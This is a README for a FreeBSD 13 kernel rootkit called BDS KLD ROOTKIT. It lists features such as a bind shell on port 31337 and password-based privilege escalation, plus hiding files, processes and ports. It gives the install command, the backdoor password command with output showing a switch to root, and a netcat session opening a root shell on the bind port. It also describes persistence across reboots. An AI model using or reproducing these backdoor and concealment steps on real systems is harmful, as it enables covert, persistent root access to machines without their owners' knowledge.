 <h2>BDS KLD ROOTKIT</h2>
<p>
Freebsd KLD Rootkit for FreeBSD 13. Hide files, hide process, hide port, bind shell backdoor
<br>
Developed by : Antonius

<br>
Website : www.bluedragonsec.com
<br>
Website : www.indodev.asia
<br>
Github : https://github.com/bluedragonsecurity
  <br>
  Github : https://github.com/indodev-asia
<br>
Twitter :  https://twitter.com/bluedragonsec
</p>

<p>
<h3>Features</h3>
<ul>
  <li>Bind shell on port 31337</li>
  <li>Bind shell process hiding</li>
  <li>Hide file with prefix bds</li>
  <li>Hide bind shell port</li>
  <li>Privilege escalation with password</li>
</ul>
</p>

<p>
<h3>Installation</h3>
<br>
You need root privilege, make and gcc to install this rootkit. To install just type :
<pre>
./install.sh
</pre>
</p>

<h3>Using the Rootkit</h3>
<p>
<b>Privilege Escalation</b>
<br>
  Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing :
  <pre>
  /sbin/bds_shell bluedragonsec
  </pre>
Typing above command will make you regain root privilege : 
<br>
<pre>
robotsoft@robotsoft ~> id
uid=1002(robotsoft) gid=1002(robotsoft) groups=1002(robotsoft),0(wheel),5(operator)
robotsoft@robotsoft ~> /sbin/bds_shell bluedragonsec
root@robotsoft:~ # id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
root@robotsoft:~ # 
</pre>
</p>

<p>
<b>Connecting to Bind Shell Backdoor</b>
<br>  
Connecting to bind shell on a freebsd server which you have installed this rootkit can be accomplished simply by using netcat :
<pre>
nc (server ip) 31337
</pre>
For example, freebsd server with rootkit installed is at 192.168.0.141 : 
<pre>
root@robotsoft ~# nc 192.168.0.141 31337
FreeBSD robotsoft 13.2-STABLE FreeBSD 13.2-STABLE GENERIC amd64
sh: turning off NDELAY mode
id
uid=0(root) gid=0(wheel) groups=0(wheel)
pwd
/
</pre>
</p>

<p>
<b>Hiding Files and Directories
</b>
<br>
  To hide file and directory just give prefix bds to file name and directory name
</p>

<p>
<b>Process Hiding</b>
This rootkit hides bind shell process from ps.
</p>

<p>
<b>Port Hiding</b>
<br>
This rootkit hides bind shell port from netstat.
</p>

<p>
<b>Persistence</b>
<br>
The rootkit is activated every time the system starts up. After the reboot, wait for 1 minute, the rootkit will be loaded into kernel.
</p>
